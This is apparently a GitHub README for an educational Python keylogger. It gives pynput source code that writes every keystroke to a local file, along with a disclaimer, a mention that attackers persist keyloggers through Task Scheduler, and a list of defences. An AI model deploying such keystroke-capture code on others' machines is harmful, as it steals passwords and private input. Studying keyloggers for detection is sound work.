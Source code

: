 # Python-Keylogger
This is a simple Python script that logs keyboard activity using the `pynput` library. It records keystrokes and writes them to a local text file (`keyfile.txt`). This tool is designed **solely for educational and ethical testing purposes**, such as understanding how keyloggers work and how to detect or prevent them.

DISCLAIMER

> **This project is intended strictly for educational use.**  
> Do **not** use this software on any system without **explicit written permission** from the owner.

 How It Works
- Listens to all keyboard input using the `pynput.keyboard` module.
- Logs printable characters to `keyfile.txt`.
- Records special keys like `Enter`, `Tab`, `Shift` as `[Key.enter]`, `[Key.shift]`, etc.
- Stops recording when the **Escape** key is pressed.
  
>**def key_pressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
        try:
            logkey.write(key.char)
        except AttributeError:
            logkey.write(f'[{key}]')

def on_release(key):
    # Stop listener if Esc is pressed
    if key == keyboard.Key.esc:
        return False

if __name__ == "__main__":
    with keyboard.Listener(on_press=key_pressed, on_release=on_release) as listener:
        listener.join()**

## What makes keyloggers so dangerous ##
Keyloggers are majority of the time are hidden and passivly logging scripts, many attackers abuse this by implemting them into system startup and automated stricts. Usally through TaskSchedular.

 
##How to Protect Against Keyloggers##
-Use up-to-date antivirus/anti-malware software
-Regularly audit running processes
-Monitor for unusual file changes 
-Educate users on suspicious behavior and phishing


##This script is useful for##
-Learning how keyloggers operate
-Understanding attack vectors in endpoint security
-Practicing defensive detection and mitigation techniques



